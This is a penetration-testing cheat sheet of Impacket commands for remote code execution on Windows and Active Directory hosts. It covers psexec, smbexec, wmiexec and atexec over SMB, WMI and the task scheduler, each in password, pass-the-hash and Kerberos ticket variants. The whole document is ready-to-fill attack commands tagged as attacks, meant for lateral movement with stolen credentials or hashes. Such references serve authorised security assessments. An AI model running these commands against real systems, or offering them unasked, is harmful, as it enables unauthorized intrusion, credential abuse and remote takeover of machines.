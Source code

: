 # impacket

% impacket, windows, exec

## PSEXEC with username
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with pass the Hash (pth)
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC with username
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py <domain>/<user>:<password>@<ip>
```

## SMBEXEC with pass the Hash (pth)
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes <hash> <user>@<ip>
```

## SMBEXEC with kerberos
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#assessment/AD #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#assessment/AD #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler 
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#assessment/AD #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <hash> <user>@<ip> "command"
```
